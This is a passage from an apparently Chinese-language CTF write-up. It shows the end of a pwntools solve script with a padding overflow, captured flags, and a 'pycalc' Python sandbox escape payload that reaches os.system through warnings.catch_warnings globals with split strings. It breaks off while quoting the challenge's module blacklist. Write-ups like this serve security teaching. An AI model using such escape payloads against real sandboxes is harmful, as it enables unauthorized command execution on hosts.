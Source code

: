 ```python
print r.recv()
name = 'A' * 0x28 + '\x01' * 4

r.sendline(name)
for i in range(100):
    n = get_next_answer()
    print r.recv()
    print 'Sending: ' + str(n) + '\n'
    r.sendline(str(n))
    print r.recv()


print r.recv()
r.close()
```

`flag: {1a28e5ea63f246745db921f924f3cf4b}`


### Pwn300 pycalc
------

一道python  sandbox 绕过的题目，相似ctf题都是用的`warnings.catch_warnings.__enter__.__func__.__globals__['linecache'].checkcache.__globals__['os']
`这个来绕过，这个题在这里有限制。直接题目给的`__builtins__`其实是有限制的，需要从其它模块中得到`__builtins__`

payload:

```python
### 59 是 warnings.catch_warnings 在list里的索引位置
getattr(().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('o'+'s'), 's'+'yst'+'em')('ls')
```

![](/media/14630355493646/14638106824527.jpg)

![](/media/14630355493646/14638107053955.jpg)


`flag{a23c60c8f9199ead4962705c7191fe3c}`


可以再研究下它的原始脚本

```python
#!/usr/bin/env python2
# -*- coding:utf-8 -*-

def banner():
    print "============================================="
    print "   Simple calculator implemented by python   "
    print "============================================="
    return

def getexp():
    return raw_input(">>> ")

def _hook_import_(name, *args, **kwargs):
    module_blacklist = ['os', 'sys', 'time', 'bdb', 'bsddb', 'cgi',
```